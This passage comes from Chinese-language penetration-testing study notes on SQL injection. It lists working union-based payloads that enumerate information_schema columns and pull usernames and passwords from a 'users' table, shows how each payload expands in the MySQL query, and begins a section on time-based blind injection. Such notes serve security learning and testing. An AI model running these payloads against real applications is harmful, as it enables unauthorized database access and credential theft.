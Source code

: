 ```sql
'union select 1,column_name from information_schema.columns where table_name='SCHEMA_PRIVILEGES' -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='users' -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='USER_PRIVILEGES' -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select 1,column_name from information_schema.columns where table_name='SCHEMA_PRIVILEGES' -- ' '

-- 查询数据列
'union select NULL,user from users -- '
'union select NULL,password from users -- '
'union select user,password from users -- '
'union select NULL GRANTEE from USER_PRIVILEGES -- '
'union select password,concat(first_name,' ',last_name,' ',user) from users -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select password,concat(first_name,' ',last_name,' ',user) from users -- ' '
```



##### 基于时间的盲注

​		有些数据库对错误信息做了安全配置，使得无法通过以上方式探测到注入点，此时，通过设置sleep语句来探测注入点。



时间盲注操作：

![SQLInjection(Blind)操作](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjection(Blind)操作.png)
